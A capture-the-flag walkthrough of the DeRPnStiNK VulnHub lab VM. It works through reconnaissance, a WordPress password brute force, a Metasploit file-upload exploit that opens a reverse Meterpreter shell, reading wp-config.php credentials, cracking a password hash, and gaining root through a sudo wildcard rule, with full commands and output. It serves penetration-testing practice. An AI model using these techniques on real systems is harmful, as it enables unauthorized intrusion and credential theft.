

## Intro

DeRPnStiNK is a vulnerable VM freely available on [VulnHub](https://www.vulnhub.com/entry/derpnstink-1,221/). You can use it to practice your pentesting skills.

The target of the exercise is to gain root access, and collect the flags in the format **flag1(AB0BFD73DAAEC7912DCDCA1BA0BA3D05)** meanwhile.


## Setup

Download the VM from vulnhub.com and import it in your VMWare installation.

At this point you may want to edit the VM network settings, in order to connect the vulnerable VM to the Kali machine. In my case, my Kali installation resides in a separate virtual machine, which can join the same virtual network of the vulnerable one.

After launching the vulnerable VM, we are presented with Ubuntu 14.04 login screen. From there we can check that the VM is actually connected to the virtual network, and get the IP of the machine. In my case, the machine has IP **172.16.136.130** (a nmap scan would have provided the same info). In order not to have to enter the vulnerable machine's IP every time, I added the machine's IP to the Kali's **/etc/hosts** file, by appending the following line:


```
172.16.136.130	target.local
```

## Attack
Let's scan the target

```
	root@kali:~# nmap -sS -O target.local
	Starting Nmap 7.70 ( https://nmap.org ) at 2018-05-07 08:20 EDT
	Nmap scan report for target.local (172.16.136.130)
	Host is up (0.00077s latency).
	Not shown: 997 closed ports
	PORT   STATE SERVICE
	21/tcp open  ftp
	22/tcp open  ssh
	80/tcp open  http
	MAC Address: 00:0C:29:17:B0:9C (VMware)
	Device type: general purpose
	Running: Linux 3.X|4.X
	OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
	OS details: Linux 3.2 - 4.9
	Network Distance: 1 hop
```

The quick nmap scan shows that the target machine has 3 open ports: 21 (ftp), 22 (ssh), 80 (http).

For doubt's sake, let's try to connect using ssh:

```
root@kali:~# ssh root@target.local
The authenticity of host 'target.local (172.16.136.130)' can't be established.
ECDSA key fingerprint is SHA256:qT1plVN18XwMzkU3qgKKZJAoPJC3+eZDxlrczLy3iCY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added 'target.local,172.16.136.130' (ECDSA) to the list of known hosts.
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      | 
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)   
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

root@target.local: Permission denied (publickey).
```
Nope, looks like ssh password login is disabled, and of course we don't have a valid key to log in via publickey.

Accessing through port 22 failed, so let's try using port 80. Open the brower and point it to target.local. You will be greeted by a (rather CPU intensive, especially if running Kali in a Virtual Machine like me) web page.

By checking the HTML source, we discover the first flag

```
<--flag1(52E37291AEDF6A46D7D0BB8A6312F4F9F1AA4975C248C3F0E008CBA09D6E9166) -->
```

In the head section of the sources we find moreover:

```
<script type="text/info" src="/webnotes/info.txt"></script>
```

Which leads to the following hint:

```
<-- @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live --> 
```

Looks like the server hosts more than the displayed webpage! Let's launch a dirb scan:


```
root@kali:~# dirb http://target.local -o dirb_output.txt

```

The [dirb scan](files/dirb_output.txt) tells us about the existence of a /weblog directory containing Wordpress installation, and a /php directory containing a PhpMyAdmin installation

When trying to browse to http://target.local/weblog we are redirected to http://derpnstink.local/weblog/ . As the previous info.txt note suggested, we have to update the hosts file to reach the blog.

Edit your Kali's **/etc/hosts** file and let derpnstink.local point to your vulnerable machine's IP

```
172.16.136.130 target.local derpnstink.local

```

Refreshing the page shows us finally the blog. The dirb scan already gave us some hints about the blogging software installed: we are dealing with a Wordpress installation. Let's launch a scan for Wordpress vulnerabilities

```
root@kali:~# wpscan --url derpnstink.local/weblog/ --no-color --enumerate u > wpscan_output.txt
```

The [scan result](files/wpscan_output.txt) shows that a vulnerable version of the **slideshow-gallery** plugin is installed, and specifically


```
[!] Title: Slideshow Gallery < 1.4.7 Arbitrary File Upload
    Reference: https://wpvulndb.com/vulnerabilities/7532
    Reference: http://seclists.org/bugtraq/2014/Sep/1
    Reference: http://packetstormsecurity.com/files/131526/
    Reference: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-5460
    Reference: https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_slideshowgallery_upload
    Reference: https://www.exploit-db.com/exploits/34681/
    Reference: https://www.exploit-db.com/exploits/34514/
```

Moreover, we the *--enumerate u* option lets us know the Wordpress users

```
[+] Identified the following 2 user/s:
    +----+-------------+---------------------------------+
    | Id | Login       | Name                            |
    +----+-------------+---------------------------------+
    | 1  | unclestinky | 404 Not                         |
    | 2  | admin       | admin – DeRPnStiNK Professional |
    +----+-------------+---------------------------------+
```

The discovered vulnerability allows to upload any file to the Wordpress installation, provided that we are able to login with a valid user.

Let's try to log in with the admin user then! A wordlist attack may be enough:


```
root@kali:~# gunzip /usr/share/wordlists/rockyou.txt.gz
root@kali:~# wpscan --url http://derpnstink.local/weblog/ --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

The dictionary attack succeeds, providing us the (arguably guessable) password for the *admin* Wordpress user

```
[+] Starting the password brute forcer
  [+] [SUCCESS] Login : admin Password : admin                                                          

  Brute Forcing 'admin' Time: 00:19:47 <                      > (19805 / 14344393)  0.13%  ETA: ??:??:??
  +----+-------+------+----------+
  | Id | Login | Name | Password |
  +----+-------+------+----------+
  |    | admin |      | admin    |
  +----+-------+------+----------+

[+] Finished: Tue May  8 08:41:51 2018
[+] Requests Done: 20183
[+] Memory used: 63.445 MB
[+] Elapsed time: 00:20:00
```

If we try to log in to Wordpress with the admin credentials, we see that it has limited power, as it can only edit the personal profile and the Slideshow slides. This could be used as a vector of attack, but let's use Metasploit to perform the attack. Run msfconsole and launch the attack:

```
msf > use exploit/unix/webapp/wp_slideshowgallery_upload 
msf exploit(unix/webapp/wp_slideshowgallery_upload) > show options

Module options (exploit/unix/webapp/wp_slideshowgallery_upload):

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   Proxies                       no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST                         yes       The target address
   RPORT        80               yes       The target port (TCP)
   SSL          false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI    /                yes       The base path to the wordpress application
   VHOST                         no        HTTP server virtual host
   WP_PASSWORD                   yes       Valid password for the provided username
   WP_USER                       yes       A valid username


Exploit target:

   Id  Name
   --  ----
   0   WP SlideShow Gallery 1.4.6


msf exploit(unix/webapp/wp_slideshowgallery_upload) > set RHOST derpnstink.local
RHOST => derpnstink.local
msf exploit(unix/webapp/wp_slideshowgallery_upload) > set TARGETURI weblog
TARGETURI => weblog
msf exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_USER admin
WP_USER => admin
msf exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_PASSWORD admin
WP_PASSWORD => admin
msf exploit(unix/webapp/wp_slideshowgallery_upload) > exploit

[*] Started reverse TCP handler on 172.16.136.129:4444 
[*] Trying to login as admin
[*] Trying to upload payload
[*] Uploading payload
[*] Calling uploaded file ujlhyaek.php
[*] Sending stage (37775 bytes) to 172.16.136.130
[*] Meterpreter session 1 opened (172.16.136.129:4444 -> 172.16.136.130:41656) at 2018-05-08 09:00:41 -0400
[+] Deleted ujlhyaek.php

meterpreter > 
```

...and we are in! We have an open session to the vulnerable machine.

First, let's open a shell and check the current situation:

```
meterpreter > shell
Process 15882 created.
Channel 0 created.
whoami
www-data
pwd
/var/www/html/weblog/wp-content/uploads/slideshow-gallery
```

We are connected as the web server, which means that we have access to the Wordpression installation files

```
cd /var/www/html/weblog
ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```

Let's *cat* the wp-config.php file to discover the (again guessable) database credentials

```
/ ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'mysql');

/** MySQL hostname */
define('DB_HOST', 'localhost');

```

In the previous dirb scan we discovered the path of a PhpMyAdmin installation, so let's browse to *http://derpnstink.local/php/phpmyadmin/* and login using the just discovered credentials.

The *wordpress* database contains some useful information, such as the second flag **flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)**, which can be saved as the content of a draft post in the *wp_posts table*. Moreover, heading to the wp_users table, we get the hash of the credentials for the Wordpress users.

We already know the password for the admin user, but right now we are insterested in the one of user unclestinky. Let's copy the hash *$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41* and prepare for a new bruteforce attack, this time performed locally.


```
root@kali:~# echo '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' > password_hash.txt
root@kali:~# john password_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (phpass [phpass ($P$ or $H$) 128/128 AVX 4x3])
No password hashes left to crack (see FAQ)
root@kali:~# john --show password_hash.txt
?:wedgie57

1 password hash cracked, 0 left

```

We have now the password for the second Wordpress user. Back to our meterpreter console, let's try to use this information. 

```
cd /home
ls
mrderp
stinky
```

The machine has two registered users. Let's spawn a terminal emulator and try to login as stinky (password re-use?)

```
python -c 'import pty; pty.spawn("/bin/bash")'  
www-data@DeRPnStiNK:/home$ su stinky
su stinky
Password: wedgie57

stinky@DeRPnStiNK:/home$ 
```

Unfortunately, user *stinky* does not have full priviledges over this machine. Checking the files he has access to, we discover however flag 3 **flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
** located in /home/stinky/Desktop/flag.txt, a chat log between *stinky* and *mrderp* in /home/stinky/ftp/files/network-logs/derpissues.txt where stinky requires a password reset and starts a packet capture. The captured packets are saved in */home/stinky/Documents/derpissues.pcap*

Copy the file to a location accessible from meterpreter, and download it

```
stinky@DeRPnStiNK:~/Documents$ cp derpissues.pcap /tmp
cp derpissues.pcap /tmp
stinky@DeRPnStiNK:~/Documents$ ^C
Terminate channel 1? [y/N]  y
meterpreter > download /tmp/derpissues.pcap
[*] Downloading: /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 1.00 MiB of 4.19 MiB (23.88%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 2.00 MiB of 4.19 MiB (47.76%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 3.00 MiB of 4.19 MiB (71.63%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 4.00 MiB of 4.19 MiB (95.51%): /tmp/derpissues.pcap -> derpissues.pcap
[*] Downloaded 4.19 MiB of 4.19 MiB (100.0%): /tmp/derpissues.pcap -> derpissues.pcap
[*] download   : /tmp/derpissues.pcap -> derpissues.pcap

```

After opening the pcap file we just downloaded with *Wireshark*, we can find an HTTP request to */weblog/wp-admin/user-new.php* which gives us a lot of information regarding the *mrderp* user.



Hopefully, mrderp used the Wordpress password for his machine's account, too. Let's try:

```
stinky@DeRPnStiNK:~$ su mrderp
su mrderp
Password: derpderpderpderpderpderpderp

mrderp@DeRPnStiNK:/home/stinky$ 

```

We are now logged in as mrderp! Unfortunately, however, mrderp can not log in as root. The */support/troubleshooting.txt* file, however, gives us a hint of a misconfiguration that we can use to get root access: looks like mrderp asked the hosting company's helpdesk to allow him to run sudo commands in a specific folder according to the following rule


```
mrderp ALL=(ALL) /home/mrderp/binaries/derpy*

```

Let's try to exploit this issue

```
mrderp@DeRPnStiNK:/support$ mkdir /home/mrderp/binaries  
mkdir /home/mrderp/binaries
mrderp@DeRPnStiNK:/support$ cd /home/mrderp/binaries
cd /home/mrderp/binaries
mrderp@DeRPnStiNK:~/binaries$ ln -s /bin/sh derpy-attack
ln -s /bin/sh derpy-attack
mrderp@DeRPnStiNK:~/binaries$ sudo ./derpy-attack
sudo ./derpy-attack
[sudo] password for mrderp: derpderpderpderpderpderpderp
# whoami
whoami
root
# 

```

Win!

The last flag [](#flag4)**flag4(49dca65f362fee401292ed7ada96f96295eab1e589c52e4e66bf4aedda715fdd)** is located in /root/Desktop/flag.txt


